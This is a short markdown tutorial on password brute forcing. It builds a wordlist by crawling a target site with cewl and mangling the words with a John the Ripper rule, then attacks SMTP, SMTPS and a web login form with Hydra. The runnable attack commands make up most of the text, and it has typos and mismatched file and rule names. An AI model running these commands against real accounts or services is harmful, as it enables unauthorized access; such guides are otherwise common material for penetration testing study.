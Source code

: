 # Example Bruce Force Password Attack
How to generate a password list using custom rules for use in brute force attacks.

## Step 1: Crawl Website for Keywords
Crawl the website using `cewl` . This command will search for words at least 8 characters long, and save the output to `target.lst`.

`cewl -m 8 -w target.list https://target.com`

## Step 2: Add Password Rules
If you know the company enforces a password policy you can start to write your own rules using `john the ripper`. The following rule will take a password list and append a special character to the begining.

/opt/john/john.conf
```
[List.Rules:xxx]
Az"[0-9][0-9]" ^[!@]
```
## Step 3: Genrate a Wordlist
Use john the ripper to generate a wordlist using the rule you created.

`john --wordlist=target.lst -rules=rulename --stdout > results.txt`

## Step 4: Bruce Force With Hydra
Perform a simple brute force on an ip.

`hydra -l username@email.com -P results.txt smtp://10.10.10.10:25`
`hydra -l username@email.com -P results.txt smtps://10.10.10.10:465`

## Attack Web Page
`hydra -l username -P results.txt 10.10.10.10 http-get-form "form.php:username=^USER^&password=^PASS^:logout.php" -f
If you know the username you can specify it with `-l username`
You will need to analyze the web page for indicators of success and failures. Enter them in the success or fail conditions
`S=logout.php`
`F=failed`
`-f` Stop after password found.

